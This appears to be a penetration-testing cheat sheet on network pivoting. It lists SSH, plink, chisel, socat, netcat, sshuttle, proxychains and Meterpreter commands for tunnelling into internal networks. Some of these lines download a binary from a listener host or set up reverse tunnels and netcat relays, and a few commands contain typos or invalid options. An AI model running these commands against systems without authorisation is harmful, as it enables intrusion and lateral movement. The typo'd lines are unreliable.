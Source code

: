 # Pivoting

### Single reverse port forwarding

```bash
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
ssh -l root -pw password -R 445:127.0.0.1:445 <listener_ip>
```

### Single Local port forwarding

```bash
ssh -l root -pw password -L 445:127.0.0.1:445 <target>
```

### Dynamic port forwarding

Socks proxy (socks5) 

```bash
ssh -l root -pw password -D 1234 <target>
```

Double SSH tunnel

```bash
ssh <1st_target> -L 2222:<2nd_target>:22
ssh localhost -p 2222 -D 1234
```

### Proxychains

```bash
# Choose any tools to create a socks proxy 
ssh <target> -D 1234

# Configure proxychains.conf with the protocl and port you chose for the socks proxy
sudo vim /etc/proxychains.conf 
	quiet_mode				   # enable this 
	socks5	127.0.0.1 1234     # change this

#Use any tool prepending the proxychains command :
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:1234 --force

# For nmap, you need to specify the -Pn and -sT arguments
proxychains nmap -sT -Pn <target>
```
> You can also forward a single port to avoid using a socks proxy, or use sshuttle


### SSHuttle

transparent proxy over ssh

```sh
# sudo apt-get update && sudo apt-get install sshuttle
sshuttle -r <target_ip>:22 <target_network>/24
```

---

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip> [-P <listener_port>] 
```

### [Chisel](https://github.com/jpillora/chisel)

Socks proxy over SSH for Windows

```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```

### Socat

```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```

### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

## [ReGeorg](https://github.com/sensepost/reGeorg)

Socks proxy over web

## [PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009)

Nmap like for windows

